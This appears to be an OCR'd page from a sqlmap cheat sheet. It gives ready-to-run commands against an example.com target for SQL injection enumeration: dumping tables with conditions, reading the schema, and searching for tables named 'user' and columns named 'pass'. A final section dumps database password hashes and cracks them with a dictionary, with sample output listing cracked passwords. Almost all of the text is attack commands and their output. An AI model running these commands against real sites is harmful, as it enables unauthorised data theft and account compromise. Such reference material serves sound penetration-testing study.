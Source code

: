 ## **Conditional Enumeration**

```
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

# **Advanced Database Enumeration**

## **DB Schema Enumeration**

```
sqlmap -u "http://www.example.com/?id=1" --schema
```

## **Searching for Data**

We can search for databases, tables, and columns of interest, by using the `--search` option.

```
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

In this example, we are looking for all of the table names containing the keyword `user`.

```
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

Here, we are looking for all of the column names containing the keyword `pass`.

## **DB Users Password Enumeration and Cracking**

### Identify a table containing passwords

```
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

You can simplify the process using

```
sqlmap -u "http://www.example.com/?id=1" --passwords --batch -T users

do you want to crack them via a dictionary-based attack? [Y/n/q] y
[00:21:08] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[00:21:15] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[00:21:19] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[00:21:19] [INFO] starting 6 processes 
[00:21:19] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                       
[00:21:19] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                       
[00:21:19] [INFO] cracked password '1955chev' for hash 'aed6d83bab8d9234a97f18432cd9a85341527297'                                       
[00:21:19] [INFO] cracked password '3052' for hash '9a0f092c8d52eaf3ea423cef8485702ba2b3deb9'   
```
